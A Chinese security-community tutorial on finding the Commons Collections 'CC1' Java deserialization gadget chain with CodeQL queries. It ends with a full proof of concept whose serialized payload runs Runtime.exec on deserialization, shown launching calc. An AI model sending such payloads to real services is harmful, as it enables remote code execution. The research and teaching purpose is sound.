









# CodeQL分析java反序列化gadget第一期--CC1链-先知社区

> **来源**: https://xz.aliyun.com/news/18578  
> **文章ID**: 18578

---

## 0x00 前言

网上有关codeql分析cc链的文章极少，所以笔者打算面向Java反序列化初学者和codeql工具初学者写一个合集，用codeql来分析反序列化链子是如何挖掘的，本文会尽可能展开笔者的思考，希望对读者能有所裨益。

## 0x01 构建

### 构建commons-collections3.2.1

1. 源码下载：[commons-collections-3.2.1-src.zip](https://archive.apache.org/dist/commons/collections/source/commons-collections-3.2.1-src.zip)
2. 构建项目然后建立codeql数据库：

```
codeql database create cc_chains --language=java --source-root . --command="mvn clean compile"
```

如果编译失败的话就一步步来，需要注意的是，commons-collections3.2.1不支持jdk8，所以使用jdk7以及对应的mvn版本。或者这么构建成功概率更高：

```
:: 跳过测试
mvn clean install -DskipTests
:: 采用--build-mode=none
codeql database create cc_chains  --language=java  --source-root . --build-mode=none
```

## 构建JDK

本文的jdk应该是jdk8u65，但是目前没找到现成的数据库，这里给出jdk8u101的：

> <https://pan.baidu.com/s/1EYeBZ0Z9abJN9H8oYf-YFw?pwd=34a3> 提取码: 34a3

## 0x02 分析

作为第一期，本文以method.invoke方法为起点，从底层分析到顶层。

### 调用Method.invoke方法

首先，我们需要找到一个方法，其调用了method.invoke，并且该方法所在类可以被反序列化，ql语句如下：

```
import java
import semmle.code.java.dataflow.DataFlow

/*
    目标是找到一个类A，A存在某个方法m，m方法调用了method.invoke方法
    由于是分析反序列化链子，那么每一个类都需要保证可反序列化，也就是继承Seializable接口
 */

class InvokeCall extends MethodCall {
    InvokeCall() {
        this.getMethod().getDeclaringType().hasQualifiedName("java.lang.reflect", "Method") and 
        this.getMethod().getName() = "invoke"
    }
}


predicate isSerializable(RefType rt) {
    exists(RefType st | 
        rt.hasSupertype(st) and
        st.hasQualifiedName("java.io", "Serializable")
    )
}

from InvokeCall ic 
where isSerializable(ic.getEnclosingCallable().getDeclaringType())
select ic, ic.getEnclosingCallable().getDeclaringType()


```

结果有两个：


第一个我们很熟悉，InvokerTransformer类就是cc1的一部分，其transform方法如下：



第二个类PrototypeCloneFactory也是可以反序列化的，不过就是另一条走向了，可以使用但是比较鸡肋，本文不做赘述。

### 寻找Transformer实现类

分析InvokerTransformer类，我们可以利用控制的参数有三个，分别是反射所需要的方法名、参数类型和参数：



问题在于transform方法接受一个Object参数**input**，这个参数正是invoke方法的调用者：

```
Class cls = input.getClass();
Method method = cls.getMethod(iMethodName, iParamTypes);
return method.invoke(input, iArgs);
```

我们希望能执行任意命令，那么input就得是Runtime实例，但是Runtime类作为单例，其本身不能被反序列化。

思维仿佛陷入了死角，但是我们不妨从开发者的角度思考问题：

> InvokerTransformer类实现了Transformer接口，该接口的作用是将一个输入对象“转换”为另一个对象。这种“转换”操作（即transform方法）在实际开发中具有很高的灵活性和复杂性。
>
> 这引发了一个问题：是否存在某个类或方法，可以将多个transform操作串联起来执行，也就是说，能够将多个连续的转换步骤封装为一个整体转换行为？
>
> 我们可以用现实中的一个例子来简单类比：在篮球比赛中，得分是一个整体动作（对应一个完整的 transform），但它通常是由多个连续的动作组成的，例如传球、突破、上篮或扣篮——这些则分别对应一个个独立的transform操作。现在我们要寻找的，是类似“得分”这样能整合多个转换步骤的transform所在的类。

接下来我们需要寻找一个类，其继承了Transformer接口，可以将多个transform方法串到一起。这样的类并不难找，我们可以只找继承了Transformer接口的类，该类的transform方法会调用继承了Transformer接口的类的transform方法（是不是很绕）。ql语句如下：

```
import java

class Transformer extends RefType {
    Transformer() {
        this.getASupertype().hasQualifiedName("org.apache.commons.collections", "Transformer") and
        exists(Method m | 
            m = this.getAMethod() and
            m.getName() = "transform" 
        )
    }

    Method getTransformMethod() {
        result = this.getAMethod() and result.getName() = "transform"
    }
}

from Transformer t
select t, t.getTransformMethod()
```

结果有很多，但是我们找到了目标：


ChainedTransformer类接受Transformer数组类型；ChainedTransformer类的transform方法如下，会连续调用Transformer数组中的Transformer实现类的transform方法。



现在我们可以连续调用InvokerTransformer类的transform方法，也就代表我们能连续执行Java代码，我们可以先创建一个Runtime实例，再调用exec方法。代码如下：

```
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
```

这里存在一个问题：我们“有可能”无法控制第一个transform方法的参数**Runtime.class**，因为该参数需要靠调用了ChainedTransformer.transform方法的调用者提供。

我们可以接着往上找调用者，但是无论如何都需要保证该参数我们可控。在上面我同样标记了一个类ConstantTransformer，顾名思义，该类跟常量有关。观察该类的transform方法（下图），发现无论参数是什么，返回的都是其成员iConstant，而该成员是Object类型且是可控的。



现在，我们可以构造出一个Transformer数组，将该数组交给ChainedTransformer类，后者的tansform被调用后会执行任意代码进而造成攻击。Transformer数组如下：

```
Transformer[]  transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
```

### 调用transform方法

现在我们需要找到ChainedTransformer.tranform方法的调用类及方法，要满足如下要求：

1. 调用类实现Serializable接口，也就是可以序列化反序列化
2. 调用方法的名称不能也是transform，不然就无限套娃了
3. 调用方法的方法体需要调用Transformer接口的transform方法，因为codeql属于静态分析，不能准确到ChainedTransformer，事实上也没有这个必要

通过这三点要求，我们可以写出如下ql语句来寻找调用类：

```
import java

class TransformerCall extends MethodCall {
    TransformerCall() {
        this.getMethod().getDeclaringType().hasQualifiedName("org.apache.commons.collections", "Transformer") and
        this.getMethod().getName() = "transform" and
        exists(Method m | 
            m = this.getEnclosingCallable() and
            m.getName() != "transform"
        )
    }
}

predicate isSerializable(RefType rt) {
    exists(RefType st | 
        rt.hasSupertype(st) and
        st.hasQualifiedName("java.io", "Serializable")
    )
}

from TransformerCall tc
where isSerializable(tc.getEnclosingCallable().getDeclaringType())
select tc, tc.getEnclosingCallable(), tc.getEnclosingCallable().getDeclaringType()
```

结果如下：（这里有两条cc1链子的各自一部分）



我个人想分析LazyMap类这一条（因为该类在cc链用的比较多），剩下一条读者可以自行分析。

具体看看LazyMap.get方法（下图），这里的factory正是Transformer类型。该方法的逻辑是，如果LazyMap不存在参数key，就会利用factory.transform方法创建一个value，将key-value对插入到LazyMap里并返回value。对于我们而言，只要这个key原先不在LazyMap里，就可以触发攻击。



这里的factory也是可控的，由LazyMap类的静态方法decorate将参数factory赋给成员factory。现在我们的思路很清晰了，找到一个调用了LazyMap.get方法的类及方法。

### 调用LazyMap.get方法

当前要找的调用类需要满足以下条件：

1. 调用类实现Serializable接口
2. 调用方法的方法体需要调用Map接口的get方法
3. get方法只能有一个参数
4. get方法所属的类必须是Map接口或者其泛型，且该类实例赋值时需要判断是否是Map泛型而不是HashMap等类
5. 是否有readObject方法调用（我们最终的目的是找到readObject方法来触发攻击）

ql语句如下，语句很长但是很好的满足了上面的五点要求：

```
/**
 * @name Advanced Map type analysis with SSA flow
 * @description 使用SSA数据流分析追踪Map变量的实际类型，找到声明为Map接口且实际也是Map接口的调用
 * @kind problem
 * @problem.severity warning
 * @precision very-high
 * @id java/advanced-map-type-analysis
 * @tags reliability
 *       dataflow
 *       type-analysis
 */

import java
import semmle.code.java.dataflow.TypeFlow
import semmle.code.java.dataflow.SSA
import semmle.code.java.Maps

/**
 * 高级Map调用分析类，使用SSA数据流分析
 */
class AdvancedMapCall extends MethodCall {
    AdvancedMapCall() {
        this.getMethod().getName() = "get" and
        this.getNumArgument() = 1 and
        this.getQualifier().getType() instanceof MapType
    }

    /**
     * 获取调用限定符的SSA变量（如果是变量访问）
     */
    SsaVariable getQualifierSsa() {
        exists(VarAccess va |
            va = this.getQualifier() and
            result.getAUse() = va
        )
    }

    /**
     * 检查是否是字段访问
     */
    predicate isFieldAccess() {
        this.getQualifier() instanceof FieldAccess
    }

    /**
     * 获取字段（如果是字段访问）
     */
    Field getAccessedField() {
        result = this.getQualifier().(FieldAccess).getField()
    }

    /**
     * 获取所有可能流入此调用点的SSA定义
     */
    SsaVariable getAFlowingDefinition() {
        result = this.getQualifierSsa()
        or
        exists(SsaPhiNode phi |
            phi = this.getQualifierSsa() and
            result = phi.getAPhiInput()
        )
        or
        exists(SsaVariable intermediate |
            intermediate = this.getAFlowingDefinition() and
            intermediate instanceof SsaPhiNode and
            result = intermediate.(SsaPhiNode).getAPhiInput()
        )
    }

    /**
     * 检查特定SSA定义是否对应Map接口类型（而不是具体实现）
     */
    predicate ssaDefinesMapInterface(SsaVariable ssaVar) {
        exists(Expr definingExpr |
            definingExpr = ssaVar.(SsaExplicitUpdate).getDefiningExpr().(VariableAssign).getSource()
            or
            definingExpr = ssaVar.(SsaExplicitUpdate).getDefiningExpr().(LocalVariableDeclExpr).getInit()
        |
            // 方法调用返回Map接口类型
            exists(MethodCall mc |
                mc = definingExpr and
                isMapInterfaceType(mc.getMethod().getReturnType())
            )
            or
            // 使用类型流分析获取精确的接口类型
            exists(RefType flowType |
                exprTypeFlow(definingExpr, flowType, true) and // true表示精确类型
                isMapInterfaceType(flowType)
            )
            or
            // 字段访问返回Map接口
            exists(FieldAccess fa |
                fa = definingExpr and
                isMapInterfaceType(fa.getField().getType())
            )
            or
            // 参数传递（方法参数通常是接口类型）
            exists(Parameter param |
                ssaVar.(SsaImplicitInit).isParameterDefinition(param) and
                isMapInterfaceType(param.getType())
            )
            or
            // 静态方法调用返回接口类型（如Collections.emptyMap()）
            exists(MethodCall staticCall |
                staticCall = definingExpr and
                staticCall.getMethod().isStatic() and
                isMapInterfaceReturnType(staticCall.getMethod())
            )
        )
    }

    /**
     * 检查字段是否声明为Map接口类型
     */
    predicate fieldIsMapInterface() {
        this.isFieldAccess() and
        isMapInterfaceType(this.getAccessedField().getType())
    }

    /**
     * 检查字段初始化是否为Map接口类型
     */
    predicate fieldInitializedWithMapInterface() {
        this.isFieldAccess() and
        exists(Field field | field = this.getAccessedField() |
            // 字段初始化为Map接口
            exists(Expr init | init = field.getInitializer() |
                exists(MethodCall mc |
                    mc = init and
                    isMapInterfaceReturnType(mc.getMethod())
                )
                or
                exists(RefType flowType |
                    exprTypeFlow(init, flowType, true) and
                    isMapInterfaceType(flowType)
                )
            )
        )
    }

    /**
     * 检查字段是否在任何方法中被赋值为具体实现类（关键新增功能）
     */
    predicate fieldContaminatedByConcreteAssignment() {
        this.isFieldAccess() and
        exists(Field field, Assignment assign |
            field = this.getAccessedField() and
            assign.getDest().(FieldAccess).getField() = field and
            (
                // 直接赋值为具体实现类构造函数
                exists(ClassInstanceExpr cie |
                    cie = assign.getSource() and
                    isConcreteMapImplementation(cie.getConstructedType())
                )
                or
                // 赋值为返回具体实现类的方法调用
                exists(MethodCall mc |
                    mc = assign.getSource() and
                    isConcreteMapImplementation(mc.getMethod().getReturnType())
                )
                or
                // 使用类型流分析检测具体实现类
                exists(RefType flowType |
                    exprTypeFlow(assign.getSource(), flowType, true) and
                    isConcreteMapImplementation(flowType)
                )
            )
        )
    }

    /**
     * 检查字段是否在构造函数中被赋值为具体实现类
     */
    predicate fieldContaminatedInConstructor() {
        this.isFieldAccess() and
        exists(Field field, Constructor constructor, Assignment assign |
            field = this.getAccessedField() and
            constructor.getDeclaringType() = field.getDeclaringType() and
            assign.getEnclosingCallable() = constructor and
            assign.getDest().(FieldAccess).getField() = field and
            (
                exists(ClassInstanceExpr cie |
                    cie = assign.getSource() and
                    isConcreteMapImplementation(cie.getConstructedType())
                )
                or
                exists(RefType flowType |
                    exprTypeFlow(assign.getSource(), flowType, true) and
                    isConcreteMapImplementation(flowType)
                )
            )
        )
    }

    /**
     * 检查字段是否被任何形式的具体实现类污染
     */
    predicate fieldIsContaminated() {
        this.fieldContaminatedByConcreteAssignment() or
        this.fieldContaminatedInConstructor() or
        // 字段初始化就是具体实现类
        (
            this.isFieldAccess() and
            exists(Field field | field = this.getAccessedField() |
                exists(Expr init | init = field.getInitializer() |
                    exists(ClassInstanceExpr cie |
                        cie = init and
                        isConcreteMapImplementation(cie.getConstructedType())
                    )
                    or
                    exists(RefType flowType |
                        exprTypeFlow(init, flowType, true) and
                        isConcreteMapImplementation(flowType)
                    )
                )
            )
        )
    }

    /**
     * 检查是否所有流入的定义都是Map接口类型
     */
    predicate allDefinitionsAreMapInterface() {
        // 情况1：变量访问且所有SSA定义都是Map接口
        (
            not this.isFieldAccess() and
            exists(this.getAFlowingDefinition()) and
            forall(SsaVariable def | def = this.getAFlowingDefinition() |
                this.ssaDefinesMapInterface(def)
            )
        )
        or
        // 情况2：字段访问且字段类型是Map接口，且没有被具体实现类污染
        (
            this.isFieldAccess() and
            this.fieldIsMapInterface() and
            not this.fieldIsContaminated() and
            (this.fieldInitializedWithMapInterface() or not exists(this.getAccessedField().getInitializer()))
        )
    }

    /**
     * 检查声明类型是否为Map接口
     */
    predicate hasDeclaredMapInterfaceType() {
        isMapInterfaceType(this.getQualifier().getType())
    }

 
    /**
     * 获取Map接口类型的详细信息
     */
    string getMapInterfaceInfo() {
        if this.isFieldAccess() then
            result = "声明类型: " + this.getQualifier().getType().getName() + 
                     ", 字段访问: " + this.getAccessedField().getName() + 
                     ", 确认为纯净Map接口调用"
        else
            result = "声明类型: " + this.getQualifier().getType().getName() + 
                     ", 确认为纯净Map接口调用"
    }
}

/**
 * 检查是否为Map接口类型（而不是具体实现类）
 */
predicate isMapInterfaceType(Type type) {
    // 直接是Map接口
    type.(RefType).getSourceDeclaration().hasQualifiedName("java.util", "Map")
    or
    // 参数化的Map接口，如Map<String, Object>
    exists(ParameterizedType pt |
        pt = type and
        pt.getSourceDeclaration().hasQualifiedName("java.util", "Map")
    )
}

/**
 * 检查是否为具体的Map实现类
 */
predicate isConcreteMapImplementation(RefType type) {
    type.getSourceDeclaration().hasQualifiedName("java.util", "HashMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "LinkedHashMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "TreeMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "ConcurrentHashMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "WeakHashMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "IdentityHashMap") or
    type.getSourceDeclaration().hasQualifiedName("java.util", "EnumMap") or
    // 其他常见Map实现
    (type instanceof MapType and 
     not type.getSourceDeclaration().hasQualifiedName("java.util", "Map") and
     type.getSourceDeclaration().getASourceSupertype*().hasQualifiedName("java.util", "Map"))
}

/**
 * 检查方法是否返回Map接口类型（常见的工厂方法）
 */
predicate isMapInterfaceReturnType(Method method) {
    // Collections类的静态方法
    method.getDeclaringType().hasQualifiedName("java.util", "Collections") and
    method.getName().regexpMatch("(empty|singleton|unmodifiable|synchronized).*Map.*") and
    isMapInterfaceType(method.getReturnType())
    or
    // 其他返回Map接口的工厂方法
    method.getReturnType().(RefType).getSourceDeclaration().hasQualifiedName("java.util", "Map")
    or
    // Map接口的默认方法或静态方法
    method.getDeclaringType().hasQualifiedName("java.util", "Map") and
    isMapInterfaceType(method.getReturnType())
}

/**
 * 辅助谓词：检查是否为序列化类
 */
predicate isSerializableClass(RefType rt) {
    exists(RefType st | 
        rt.hasSupertype(st) and
        st.hasQualifiedName("java.io", "Serializable")
    )
}


// 主查询
from AdvancedMapCall amc
where 
    // 声明类型是Map接口
    amc.hasDeclaredMapInterfaceType() and
    // 所有定义都是Map接口类型（包括字段访问且未被污染）
    amc.allDefinitionsAreMapInterface() and
    // 在序列化类中（可选过滤条件）
    isSerializableClass(amc.getEnclosingCallable().getDeclaringType())
    select
    amc, "Map 使用点",
    amc.getMapInterfaceInfo(), "映射接口信息",
    amc.getEnclosingCallable(), "方法所在的位置",
    amc.getEnclosingCallable().getDeclaringType(), "所属类"
  
```

查询结果：



这里看到了readObject方法，如果可以的话岂不是直接就能完成反序列化。AnnotationInvocationHandler类的readObject方法，其source点最后还是要回到Annotation类，几乎利用不了。但是学习Java反序列化，我们必须对动态代理敏感，AnnotationInvocationHandler类继承了InvocationHandler接口，其invoke在动态代理执行任意方法的时候会触发。好巧不巧的是，AnnotationInvocationHandler类的invoke方法也符合我们的查询要求，跟进看看：（方法名不为下图的几个才能触发memberValues.get方法）​



memberValues实际上是Map泛型（声明如下），我们可以通过AnnotationInvocationHandler类的构造方法（如下）进行赋值：

```
// 声明
private final Map<String, Object> memberValues;
// 构造方法
AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
}
```

所以我们只需要把AnnotationInvocationHandler类的memberValues赋值为恶意的LazyMap对象，那么在触发以AnnotationInvocationHandler为InvocationHandler的动态代理时，会触发到AnnotationInvocationHandler的invoke方法，进而触发到LazyMap的get方法，造成攻击。

### 调用动态代理

问题是这个代理怎么触发呢，其实只要一个类的反序列化方法中会调用除了上图所说的那几个方法，就会触发到这个代理。有趣的是，AnnotationInvocationHandler类就存在这么一个方法：



此图的memberValues是动态代理，动态代理里面的AnnotationInvocationHandler还有一个memberValues，后者才是LazyMap，前者只是一个代理，这对于初学者很容易搞混。言归正传，readObject方法会触发动态代理的entrySet方法，该方法不属于前面所说的几个方法，所以可以触发动态代理。代理构造如下：

```
// 构造里面的AnnotationInvocationHandler类，交给动态代理
Class annotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor annotationInvocationHandlerConstructor = annotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
annotationInvocationHandlerConstructor.setAccessible(true);
InvocationHandler annotationInvocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class, lazyedMap);
// 构造动态代理
Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annotationInvocationHandler);
// 构造外面的AnnotationInvocationHandler类，用于反序列化触发readObject方法
InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class, proxyMap);
```

所以最后的POC如下：

```
package cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

import static Tool.Serialize.serialize;
import static Tool.Unserialize.unserialize;

public class OriginalModel {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap map = new HashMap<>();
        Map lazyedMap = LazyMap.decorate(map, chainedTransformer);
        Class annotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = annotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class, lazyedMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annotationInvocationHandler);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class, proxyMap);
        serialize(invocationHandler);
        unserialize("ser.bin");

    }
}
```

## 0x03 结语

本文略有难度，包含了笔者重新挖掘分析cc1链的心路历程，比如为什么要往开发者的角度思考，为什么要想到动态代理，静态分析又存在哪些难点和痛点，怎么将静态分析和动态分析结合在一起等等，思考这些问题对代码审计不无帮助。
